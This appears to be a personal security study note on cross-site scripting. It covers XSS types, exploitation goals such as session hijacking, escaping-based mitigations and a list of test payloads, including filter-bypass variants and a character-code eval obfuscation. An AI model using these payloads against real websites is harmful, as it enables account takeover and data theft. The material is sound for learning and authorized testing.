 # XSS

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```

## Exploitation
- Session Hijacking (SEC542-4)
- Fake Page (SEC542-4)
- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

## Payloads
```Javascript
a<script>alert('ehsan')</script>
a<SCript>alert('ehsan')</SCript>
a<scri<script>pt>alert('ehsan')</scri</script>pt>
a<img src='aaa' onerror='alert("ehsan")'/>
a<script>prompt('ehsan')</script>
a<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 101, 104, 115, 97, 110, 39, 41))</script>
a";alert("ehsan");//
a";alert("ehsan");"
a';alert('ehsan');//
a';alert('ehsan');'
/"><script>alert('ehsan')</script>
```
  
